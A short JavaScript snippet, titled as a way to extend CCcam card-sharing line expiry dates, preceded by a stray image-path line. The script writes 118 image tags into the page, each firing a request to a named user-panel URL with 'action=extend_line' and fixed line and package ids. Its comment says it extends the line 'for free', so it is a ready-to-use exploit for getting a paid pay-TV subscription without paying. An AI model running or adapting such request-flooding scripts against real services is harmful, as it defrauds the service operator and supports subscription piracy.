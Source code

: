 # CCCAM CLINE ENTEND EXPIRE DATE
var pl = 'http://hsm4k.skypk.net/userpanel/official.php';

//how many time extand line for free
var ex = 118;

// line id
var lid = 1387;

//package id
var packid = 29;


if (ex > 350)
{
    alert("null")
}
else
{
    var html = "";
    for (i = 0; i < ex; i++)
    {
        var ran = Math.random();
        html += '<img src="' + pl + '?action=extend_line&line_id=' + lid + '&package_id=' + packid + '&r=' + ran + '"/>';
    }

    document.body.innerHTML = html;

}

